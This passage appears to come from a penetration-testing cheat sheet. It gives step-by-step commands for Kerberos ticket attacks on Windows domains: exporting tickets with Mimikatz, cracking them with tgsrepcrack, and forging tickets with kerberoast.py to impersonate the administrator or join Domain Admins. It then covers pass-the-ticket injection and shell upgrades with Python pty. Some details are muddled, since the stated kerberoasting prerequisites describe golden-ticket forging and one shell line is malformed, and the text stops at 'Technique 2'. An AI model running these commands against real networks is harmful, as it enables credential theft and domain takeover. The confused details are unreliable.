 Extract the acquired tickets from ram with Mimikatz

{% highlight PowerShell %}
mimikatz # kerberos::list /export
{% endhighlight %}

Crack with tgsrepcrack

{% highlight PowerShell %}
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
{% endhighlight %}

For kerberoasting we need: - Domain name, - Domain SID, and a - Password hash of the Krbtgt account

In an active Windows Meterpreter session, type “shell” to open a DOS shell.

{% highlight PowerShell %}
wmic useraccount get name,sid
{% endhighlight %}

Make user appear to be a different user

{% highlight PowerShell %}
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -u 500
{% endhighlight %}

Add user to another group (in this case Domain Admin)

{% highlight PowerShell %}
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -g 512
{% endhighlight %}

Inject back into RAM with Mimikatz

{% highlight PowerShell %}
kerberos::ptt sql.kirbi
{% endhighlight %}

# TTY

Linux Shell

{% highlight PowerShell %}
#/bin/sh -I
{% endhighlight %}

Python

Technique 1

{% highlight PowerShell %}
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
python /tmp/asdf.py
{% endhighlight %}

Technique 2

